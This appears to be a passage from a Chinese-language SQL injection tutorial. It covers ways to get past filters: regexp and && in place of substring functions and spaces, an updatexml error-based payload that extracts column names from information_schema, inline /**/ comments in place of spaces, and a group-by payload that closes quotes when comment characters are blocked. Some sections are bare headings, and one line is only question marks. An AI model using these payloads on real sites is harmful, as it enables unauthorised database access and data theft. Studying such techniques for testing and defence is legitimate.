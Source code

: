 

## §4.4 截取字符串绕`substr()`与`substring()`

使用字符串拼接运算符`||`

？？？？？？？？？？？？？？？？

```
mysql> SELECT * from users where id regexp('1');
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | 123      |
| 10 | admin2   | 123      |
| 11 | admin3   | 123      |
| 12 | dhakkan  | 123      |
| 14 | admin4   | 123      |
+----+----------+----------+
5 rows in set (0.00 sec)

mysql> SELECT * from users where id regexp('1') && username regexp('^a');
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 10 | admin2   | 123      |
| 11 | admin3   | 123      |
| 14 | admin4   | 123      |
+----+----------+----------+

&&(column_name)regexp('^r')绕空格
注意是绕报错注入的30字符限制
(updatexml(1,concat(0x3a,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')&&(column_name)regexp('^r'))),1))#
```



## §4.5 内联注释绕空格

`select * from users`与`select/**/*/**/from/**/users`的效果一样，只是把空格换成了`/**/`而已。



## §4.6 合成字符

## §4.7 绕过注释符

考虑以下语句：`select * from users where id='$id' limit 0,1`，禁用所有注释符。

可以考虑Payload为`1' group by 2,'`，得到的SQL语句为`select * from users where id='1' group by 2,'' limit 0,1`。这里不用`order by`爆列数的原因是`group by`支持多参数，可以闭合最后的单引号。

## §4.8 绕过`information_schema`爆列名
